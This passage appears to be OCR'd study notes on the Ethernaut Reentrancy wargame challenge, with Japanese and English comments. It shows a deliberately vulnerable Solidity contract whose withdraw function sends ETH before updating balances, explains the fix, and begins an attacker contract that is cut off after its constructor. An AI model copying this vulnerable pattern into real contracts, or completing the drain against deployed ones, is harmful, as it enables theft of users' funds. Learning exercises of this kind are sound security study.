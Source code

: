 ```solidity
}
```

//今までのDAOWalletを使ったRe-Entrancy Attack lessonを参考に実践してみる。
```solidity
/Reentrance.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/contracts/utils/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) { //[2] このcodeのVulnerabilityでEth抜きまくれる //[check]
      //*make sure adheing to the "check-effect-interaction" solidity pattern!

      (bool result,) = msg.sender.call{value:_amount}(""); //[interaction]
      //msg.sender represent a user wallet address that could be a smart contract and if you're calling its fallback function,
      //there can be malicious code in there. that's going to exploit some vlunerability that you have in contract 
      //now that way again that this could have been fixed is [1]
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount; //[effect]
      //[1] maintain the balance for a given account before we called the fallback function that sent money "msg.sender.call{value:_amount}(""); "" to the contract.
    }//recursive loop would never have been able to get executed and again if this [2] of code would have been underneath withdraw function.

  }

  fallback() external payable {}
}
```
```solidity
/EthernautReentrancyAttack.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './Reentrance.sol';

contract EthernautReentrancyAttack {
    Reentrance target;
    uint public amount = 1 ether; //withdraw amount each other 

    constructor(address payable _targetAddr) public payable {
        target = Reentrance(_targetAddr);
    }

    function donateToTarget() public { //Ethを送ることでhackingする
```